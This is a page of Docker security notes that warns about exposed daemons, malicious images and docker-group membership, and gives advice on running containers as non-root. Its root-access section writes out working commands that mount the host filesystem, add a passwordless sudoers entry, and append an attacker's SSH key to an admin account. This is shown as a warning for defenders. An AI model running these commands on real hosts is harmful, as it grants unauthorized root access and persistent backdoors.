 Docker Security Notes
=====================

* [Overview](README.md) | [Install](install.md) | [Config](config.md)
  | [Image Build](image.md) | [Registries](registries.md)
  | [Security](security.md) | [Misc](misc.md) | [Tips](tips.md)
  | [Compose](compose.md)

Secure Your Server and Be Careful of Malicious Images
-----------------------------------------------------

There are automated bots that scan for Docker daemons to exploit; if
you leave a port open you will get 0wned. (See 'Leveraging Docker for
Root Access' below.) The default standalone config uses only a Unix
socket, but management systems may open stuff further.

Malicious images are also a problem, and, despite Docker doing
security scanning, may be left up on [Docker Hub] for a year or more.

For details, see:
* [Cryptojacking invades cloud. How modern containerization trend is
  exploited by attackers][kromtech]


Leveraging Docker for Root Access
---------------------------------

On many systems the Docker daemon socket is owned by group `docker`
and group members have write access to the socket. It's tempting to
add users to this group so they need not `sudo docker`; don't do this!

Anybody with access to the Docker daemon socket can easily leverage this
(or unwittingly run a program that leverages this) for root access on the
host using the technique below. Thus, if you're giving someone this access,
make it explicit and clear by putting them in the `sudo` group instead.

    #   On the host, start a Docker container with a root shell
    #   that has access to all files on the host.
    docker run -it --rm --name root -v /:/host:rw alpine /bin/sh -l

    #   You are now running as root user in the docker container.
    #   Allow user `taro` to sudo to a root shell with no password.
    cd /host/etc/sudoers.d
    echo 'taro ALL=(ALL) NOPASSWD:ALL' > 50-taro
    chmod 600 50-taro
    exit

    #   Or, more subtly, if another user has sudo without password:
    cat >> /host/home/adminuser/.ssh/authorized_keys
    ssh-rsa AAAA.... ur@hacked.com
    ^D

The same of course applies to making the Docker daemon socket available
to any account (root or not) inside a container.

Further discussion and warnings from others:
- [lvh blog] for more details and a video.
- [Docker][dw-docker] on the Debian Wiki (big warning at top of page)
- [Linux users: running docker without sudo is dangerous][suixo] by suixo.


User/UID in Container
---------------------

By default Docker container processes are started as UID 0 (user
`root`), relying on the container protection to isolate the process.
It's considered better practice (though not so often done, except by
some hosting services that enforce this) to run as a different user in
the container. (This can be set with `USER` in the `Dockerfile` or
`docker run -u`.) An alternative is to use user namespaces to map
`root` in the container to a different user on the host.

When using `USER` in a `Dockerfile`, note that this affects the build
of images using that image as a base image. Generally they'll have to
user another `USER` to change back to root to install further packages
or whatever, and then change back again later. Also note that hosting
services may override the `USER` with their own `docker run -u` option,
particularly if you give a username instead of UID.

When using a different user in the container, the main problem that
usually crops up is lack of an `/etc/passwd` entry for the user.
(OpenSSH, for example, will refuse to run in this circumstance.)
[`nss_wrapper`] can be used to work around this, if you install it in
your container and use appropriate wrapper scripts or similar to
supply the following environment. You must supply both passwd and
group; it won't work with just passwd.

    LD_PRELOAD=/usr/lib/libnss_wrapper.so
    NSS_WRAPPER_PASSWD=/path/to/custom/passwd
    NSS_WRAPPER_GROUP=/path/to/custom/group

This series of posts by Graham Dumpleton is a detailed exploration of
root and non-root users in Docker containers.
* [Running IPython as a Docker container under OpenShift.][dscpl151218]  
  Why is the `jupyter/notebooks` image breaking when run on OpenShift?
  Because OpenShift doesn't run it as root.
* [Don't run as root inside of Docker containers.][dscpl151218a]  
  Example of leveraging root in a container to get root access on the host.
* [Overriding the user Docker containers run as.][dscpl151222]  
  `USER` directive in Dockerfile; `run -u` option.
* [Random user IDs when running Docker containers.][dscpl151223]  
  How to handle not knowing the UID of your container.
  Working when GID is 0 and umask settings.
* [Unknown user when running Docker container.][dscpl151224]  
  Using `nss_wrapper`.
* [Issues with running as PID 1 in a Docker container.][dscpl151229]


<!-------------------------------------------------------------------->

[Docker Hub]: https://hub.docker.com/explore/

[dw-docker]: https://wiki.debian.org/Docker
[lvh blog]: https://web.archive.org/web/20190623234615/https://www.lvh.io/posts/dont-expose-the-docker-socket-not-even-to-a-container.html
[suixo]: https://medium.com/@suixo/linux-users-running-docker-without-sudo-is-dangerous-3e5c5654abea

[`nss_wrapper`]: https://cwrap.org/nss_wrapper.html
[dscpl151218]: http://blog.dscpl.com.au/2015/12/running-ipython-as-docker-container.html
[dscpl151218a]: http://blog.dscpl.com.au/2015/12/don-run-as-root-inside-of-docker.html
[dscpl151222]: http://blog.dscpl.com.au/2015/12/overriding-user-docker-containers-run-as.html
[dscpl151223]: http://blog.dscpl.com.au/2015/12/random-user-ids-when-running-docker.html
[dscpl151224]: http://blog.dscpl.com.au/2015/12/unknown-user-when-running-docker.html
[dscpl151229]: http://blog.dscpl.com.au/2015/12/issues-with-running-as-pid-1-in-docker.html
[kromtech]: https://kromtech.com/blog/security-center/cryptojacking-invades-cloud-how-modern-containerization-trend-is-exploited-by-attackers

